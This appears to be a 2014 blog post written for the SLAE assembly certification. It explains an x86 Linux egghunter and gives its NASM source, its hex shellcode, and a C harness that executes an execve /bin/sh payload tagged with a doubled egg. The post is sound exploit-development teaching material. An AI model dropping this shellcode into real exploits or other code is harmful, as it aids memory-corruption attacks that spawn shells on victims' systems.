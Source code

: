 ```yaml
---
comments: true
date: 2014-04-09
layout: post
title: 'SLAE Assignment 3: EggHunter Demo'
subtitle: '3rd assignment of the SLAE'
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:

{% highlight c %}  
unsigned char egghunter[] = "egghunter shellcode"
unsigned char shellcode[] = \
"egg"
"egg"
"execve /bin/sh shellcode"

int main(void){
	run(egghunter);
	return 0;
}
{% endhighlight %}

This is the complete shellcode:

{% highlight nasm %}
;Description:	Assignment #3 (EggHunter, 34 bytes)
;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
;SLAE ID:		526

global _start
section .text
_start:
	fldz
	fstenv [esp-0xc]
	pop eax
	lp1:
	inc eax
	xor ebx,ebx
	mov cl,2
	lp2:
	cmp dword [eax+ebx],0xddccbbaa
	jne lp1
	add ebx,4	;the egg must be found twice so i check eax and eax+4
	dec cl		;this is a counter to track how many times the egg has been found
	jnz lp2
	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
	jmp eax
{% endhighlight %}

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

{% highlight c %}
/* Description:	EggHunter(execve(/bin/sh))
* Author:	Paolo Stivanin <https://github.com/paolostivanin>
* SLAE ID:	526
*/

#include <stdio.h>
#include <string.h>

unsigned char eggHunter[] = \
"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

unsigned char execveShellcode[] = \
"\xaa\xbb\xcc\xdd" //egg
"\xaa\xbb\xcc\xdd" //egg
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

int main(void){
	printf("EggHunter: %zu\n", strlen(eggHunter));
	printf("Shellcode: %zu\n", strlen(execveShellcode));
	int (*ret)() = (int(*)())eggHunter;
	ret();
	return 0;
}
{% endhighlight %}

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
